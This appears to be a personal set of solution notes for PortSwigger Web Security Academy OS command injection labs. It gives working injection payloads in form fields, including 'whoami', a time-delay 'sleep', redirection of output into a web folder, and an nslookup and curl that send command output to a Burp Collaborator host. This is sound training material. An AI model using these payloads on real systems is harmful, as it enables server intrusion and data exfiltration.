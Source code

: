 
# OS Command Injection

https://portswigger.net/web-security/os-command-injection/lab-simple
- On the Product page, edit the form at the bottom and the storeID parameter to `1;whoami`
- `62 peter-YGmSyj units`

https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays
- In the feedback form, put `";sleep 10 "` in all fields except email

https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection
- In the feedback form, put `"; bash -c whoami > /var/www/images/whoami "` in all fields except email
- Looking at source code, images retrieved through this url
- Can get whoami from https://acf41f801fbb2d59c038531600ea0051.web-security-academy.net/image?filename=whoami Need to download the thins

https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band
 - Same thing as above but with `" & nslookup burpcollaborator.net & "`


https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration
- Only need message field (after testing) `" & curl 9jtk644eqp7njt0kr65x8sxnoeu5iu.burpcollaborator.net --data "$(whoami)"& "`
- Get the payload from burp collaborator : `peter-RzGb30`

9jtk644eqp7njt0kr65x8sxnoeu5iu.burpcollaborator.net
